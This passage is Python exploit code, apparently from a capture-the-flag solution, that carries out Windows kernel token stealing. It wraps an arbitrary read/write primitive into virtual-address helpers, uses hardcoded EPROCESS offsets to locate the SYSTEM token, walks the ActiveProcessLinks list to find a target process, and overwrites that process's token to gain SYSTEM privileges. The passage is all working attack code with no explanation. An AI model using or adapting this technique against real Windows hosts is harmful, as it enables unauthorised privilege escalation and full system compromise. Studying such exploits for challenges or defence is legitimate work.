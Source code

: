 ```py

def read_at_va(va: int) -> int:
    return read_at(va - secret_store_base)


def write_to_va(va: int, val: int) -> None:
    write_to(va - secret_store_base, val)


kernel_offset = kernel_base - secret_store_base
print('[*] kernel_offset @', hex(kernel_offset))

print('[*] ok we are ready')

PsInitialSystemProcess_off = 0xD107E0
ActiveProcessLinks_off = 0x448
Token_off = 0x4b8
Pid_off = 0x440

PsInitialSystemProcess = read_at_va(kernel_base + PsInitialSystemProcess_off)
print('[*] [PsInitialSystemProcess] ->', hex(PsInitialSystemProcess))


system_token = read_at_va(PsInitialSystemProcess + Token_off)
print('[*] system_token', hex(system_token))


def get_process(tgt_pid: int) -> int:
    links = PsInitialSystemProcess + ActiveProcessLinks_off
    head = links

    while True:
        links = read_at_va(links + 8)
        print('[*] links', hex(links))

        if links == head:
            print('[!] LINKS == HEAD')
            break

        eprocess = links - ActiveProcessLinks_off
        print('[*] eprocess', hex(eprocess))

        pid = read_at_va(eprocess + Pid_off)
        if pid != tgt_pid:
            continue

        return eprocess

    return 0


target_eprocess = get_process(process_id)
print('[*] target_eprocess', hex(target_eprocess))

print('[*] overwriting token *crossed fingers*')
write_to_va(target_eprocess + Token_off, system_token)

print('[*] reading the flag')
io.sendline(b'3')
io.interactive()
```

